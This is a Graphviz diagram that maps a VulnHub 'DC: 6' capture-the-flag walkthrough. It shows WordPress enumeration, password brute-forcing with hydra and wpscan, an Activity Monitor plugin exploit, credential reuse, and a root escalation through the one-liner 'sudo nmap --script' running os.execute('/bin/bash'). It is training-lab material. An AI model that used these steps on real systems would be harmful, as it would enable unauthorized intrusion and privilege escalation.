 digraph G {
  #rankdir=LR;
  nodesdictep=1.0; splines="ortho"; K=0.6; overlap=scale; fixedsize=true; resolution=72; bgcolor="#ffffff"; outputorder="edgesfirst";
  node [fontname="courier" fontsize=18 shape=box width=0.25 fillcolor="white" style="filled,solid"];
  edge [style=solid color="#005f87" penwidth=0.75 arrowsize=0.75];

  0[label="192.168.92.170" color="navyblue" fillcolor="#ffffff" tooltip="[VulnHub] DC: 6"];
  10[label="netcat: www-data" color="darkorange" fillcolor="#ffe0ac" tooltip="Phase #2:Exploitation"];
  11[label="Phase #3: Privilege Escalation" color="red" fillcolor="#ffacb7" tooltip="Phase #3:Privilege Escalation"];
  12[label="/var/www/html/wp-config.php" color="red" fillcolor="#ffacb7" tooltip="Phase #3:Privilege Escalation"];
  13[label="mysql: wpdbuser/meErKatZ" color="red" fillcolor="#ffacb7" tooltip="Phase #3:Privilege Escalation"];
  14[label="mysql" color="red" fillcolor="#ffacb7" tooltip="Phase #3:Privilege Escalation"];
  15[label="select user_login, user_pass from wp_users;" color="red" fillcolor="#ffacb7" tooltip="Phase #3:Privilege Escalation"];
  16[label="/home/mark/stuff/things-to-do.txt" color="red" fillcolor="#ffacb7" tooltip="Phase #3:Privilege Escalation"];
  17[label="ssh: graham/GSo7isUM1D4" color="red" fillcolor="#ffacb7" tooltip="Phase #3:Privilege Escalation"];
  18[label="shell: graham" color="red" fillcolor="#ffacb7" tooltip="Phase #3:Privilege Escalation"];
  19[label="/home/jens/backups.sh" color="red" fillcolor="#ffacb7" tooltip="Phase #3:Privilege Escalation"];
  1[label="Phase #1: Enumeration" color="darkgreen" fillcolor="#cceabb" tooltip="Phase #1:Enumeration"];
  20[label="sudo -u jens /home/jens/backups.sh" color="red" fillcolor="#ffacb7" tooltip="Phase #3:Privilege Escalation"];
  21[label="shell: jens" color="red" fillcolor="#ffacb7" tooltip="Phase #3:Privilege Escalation"];
  22[label="echo os.execute('/bin/bash') >nse && sudo nmap --script=nse" color="red" fillcolor="#ffacb7" tooltip="Phase #3:Privilege Escalation"];
  23[label="shell: root" color="red" fillcolor="#ffacb7" tooltip="Phase #3:Privilege Escalation"];
  24[label="/root/theflag.txt" color="red" fillcolor="#ffacb7" tooltip="Phase #3:Privilege Escalation"];
  2[label="22/tcp" color="darkgreen" fillcolor="#cceabb" tooltip="Phase #1:Enumeration"];
  3[label="80/tcp" color="darkgreen" fillcolor="#cceabb" tooltip="Phase #1:Enumeration"];
  4[label="wordpress" color="darkgreen" fillcolor="#cceabb" tooltip="Phase #1:Enumeration"];
  5[label="hydra: mark/helpdesk01" color="darkgreen" fillcolor="#cceabb" tooltip="Phase #1:Enumeration"];
  6[label="Phase #2: Exploitation" color="darkorange" fillcolor="#ffe0ac" tooltip="Phase #2:Exploitation"];
  7[label="wordpress: activity monitor plugin" color="darkorange" fillcolor="#ffe0ac" tooltip="Phase #2:Exploitation"];
  8[label="wpscan: mark/helpdesk01" color="darkgreen" fillcolor="#cceabb" tooltip="Phase #1:Enumeration"];
  9[label="edb:45274" color="darkorange" fillcolor="#ffe0ac" tooltip="Phase #2:Exploitation"];

  subgraph cluster_0 {
    node [style="filled,solid"];
    label = "[VulnHub] DC: 6";
    color = "#665957";
    0 -> 1 [color="#005f87"];
    1 -> 2 [color="#005f87"];
    1 -> 3 [color="#005f87"];
    10 -> 11 [color="#005f87"];
    11 -> 12 [color="#005f87"];
    11 -> 16 [color="#005f87"];
    12 -> 13 [color="#005f87"];
    13 -> 14 [color="#005f87"];
    14 -> 15 [color="#005f87"];
    16 -> 17 [color="#005f87"];
    17 -> 18 [color="#005f87"];
    18 -> 19 [color="#005f87"];
    19 -> 20 [color="#005f87"];
    20 -> 21 [color="#005f87"];
    21 -> 22 [color="#005f87"];
    22 -> 23 [color="#005f87"];
    23 -> 24 [color="#005f87"];
    3 -> 4 [color="#005f87"];
    4 -> 5 [color="#005f87"];
    4 -> 8 [color="#005f87"];
    5 -> 6 [color="#005f87"];
    6 -> 7 [color="#005f87"];
    7 -> 9 [color="#005f87"];
    8 -> 6 [color="#005f87"];
    9 -> 10 [color="#005f87"];
  }
}
